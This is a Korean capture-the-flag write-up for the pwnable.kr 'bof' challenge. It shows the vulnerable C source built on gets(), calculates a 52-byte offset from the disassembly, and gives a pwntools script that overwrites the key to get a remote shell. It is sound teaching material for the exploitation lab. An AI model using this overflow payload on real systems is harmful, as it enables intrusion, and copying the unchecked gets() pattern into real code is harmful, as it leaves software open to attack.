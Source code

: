 ![](Attachments/{789FE7B2-FC75-46E0-ADCA-D5BEF6ED126F}.png)


### Buffer Overflow
- 스택 버퍼 오버플로우
- 힙 버퍼 오버플로우



우분투에서 wget을 통해 파일을 다운받는다.
`$ wget http://pwnable.kr/bin/bof`

`http://pwnable.kr/bin/bof.c`

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];    // 32바이트 크기의 배열
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
- 0xdeadbeef를 key로 함수에 전달하고, key가 0xcafebabe와 일치하면 셸을 실행함
- `gets`함수로 사용자 입력을 받아 배열 `overflowme`에 저장함
	- `gets`는 입력 길이를 검증하지 않으므로, 입력이 32바이트를 초과하면 메모리의 다른 영역을 덮어쓸 수 있음
	- 이를 통해 key 변수의 값을 변경할 수 있음


#### 풀이

key 값을 원하는 값으로 바꿔주기 위해서는 입력이 가능한 overflowme와 key 변수 간의 거리를 알아야 한다.

![](Attachments/{986F88B2-A8F9-4AEB-99F2-D7655936CDB3}.png)

- func 함수의 disassembly 코드를 보면 4번의 call이 있는데, 각각 printf(), gets(), system(), printf()를 의미한다.
	- gets의 인자로 overflowme가 들어가고, 두 번째 call 위의 lea에서 [ebp-0x2c]의 주소를 인자로 받을 수 있게 하므로 overflowme는 [ebp-0x2c]에 있다.
	- key는 0xcafebabe와 비교하기 때문에, func+40에서 [ebp+0x8] 위치에 있다.
		- breakpoint를 걸고 실행시키면 overflowme 값을 받는 것이 보인다.![](Attachments/{1E6568B2-7D36-41A3-AA30-0B1B2D286B8E}.png)

key인 [ebp+0x8]과 overflowme [ebp-0x2c]의 거리는 52바이트이다.

```python
#!/usr/bin/env python
from pwn import *
#context.log_level = 'debug'

conn = remote('pwnable.kr', 9000)
conn.sendline('A'*52+'\xbe\xba\xfe\xca')
conn.interactive()
```

`$ python3 bofPwn.py`

![](Attachments/{95374845-63C2-4195-9B44-D6359AC901E0}.png)